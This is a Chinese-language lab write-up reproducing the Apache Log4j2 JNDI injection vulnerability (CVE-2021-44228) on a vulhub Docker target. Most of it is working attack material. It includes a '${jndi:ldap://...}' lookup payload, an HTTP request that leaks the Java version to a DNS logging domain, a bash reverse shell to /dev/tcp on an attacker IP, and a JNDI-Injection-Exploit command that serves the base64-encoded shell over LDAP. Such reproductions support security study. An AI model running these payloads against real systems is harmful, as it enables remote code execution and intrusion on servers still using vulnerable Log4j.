



# 漏洞复现——Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

# 漏洞概述

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

# 漏洞复现

1. 进入ubuntu靶机的vulhub/log4j/CVE-2021-4428目录，docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 访问靶机IP:8983端口，看到如下页面

   

3. 使用dns平台[dig](https://dig.pm/)获取一个域名

   

4. 抓包，构造获取java版本的Payload发送请求到dig

   ```
   GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.5fc81d25.dns.1433.eu.org} HTTP/1.1
   Host: 192.168.2.132:8983
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
   Connection: close
   ```

5. 刷新dig页面，成功获取到java版本，命令被成功执行

   

# 反弹shell

1. 将反弹shell的payload进行base64加密

   ``` shell
   bash -i >& /dev/tcp/192.168.2.133/1234 0>&1
   ```

2. 使用JNDI注入工具生成payload，并开启ldap服务

   ``` java
   java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMzLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
   ```

3. 修改数据包，使靶机访问ldap，即可反弹shell

